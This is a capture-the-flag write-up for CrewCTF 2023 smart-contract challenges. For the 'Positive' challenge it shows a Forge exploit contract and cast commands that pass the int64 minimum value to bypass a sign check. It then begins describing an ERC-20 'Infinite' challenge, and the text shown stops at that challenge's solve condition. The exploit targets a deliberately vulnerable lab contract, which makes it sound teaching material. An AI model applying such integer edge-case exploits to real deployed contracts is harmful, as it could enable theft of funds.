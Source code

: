 
The `stayPositive` function takes an int64 value as input, and in order to set the state variable `solved` to `true`, the input must meet certain conditions. By utilizing the minimum value for int64, which is `-9223372036854775808`, all of these conditions are satisfied, resulting in the state variable solved being set to `true`. Now, let's craft an exploit using forge.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.6;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Setup.sol";
import "../src/Positive.sol";

contract Hack{
    Setup setup;
    function setUp()public{
        setup = new Setup();
    }

    function testExploit()public{
        Positive positive = Positive(setup.TARGET());
        positive.stayPositive(-9223372036854775808);
        console.log(setup.isSolved());
    }
}

```

![](/images/ctfs/crewctf23/crewctf-web31.png)

In order to get the flag, we follow the following steps:

1. Launch a new instance by connecting to the provided server.
2. Save the `rpc endpoint`,`private key` and the address of the `setup contract`, provided by the server.
3. Retrieve the address of the Positive contract using the following command:
```
cast call <> "TARGET()" --rpc-url <your_rpc_url> --private-key <your_private_key>
```
4. Execute the `stayPositive` function within the Positive contract by executing the following command:
```
cast send <positiveContract> "stayPositive(int64)" --private-key <yourPrivateKey> --rpc-url <your_rpc_url> -- -9223372036854775808
```
5. Connect to the server and read the flag!


## Challenge 2: Infinite

This was an interesting challenge involving [ERC-20](https://ethereum.org/en/developers/docs/standards/tokens/erc-20/) tokens. We're given 6 files: `candyToken.sol`, `crewToken.sol`, `fancyStore.sol`, `localGang.sol`,`respectToken.sol`,`Setup.sol`. In order to solve the challenge, we need to satisfy the following condition:
```
function isSolved() public view returns (bool) {
    return STORE.respectCount(CREW.receiver())>=50 ;
}
```
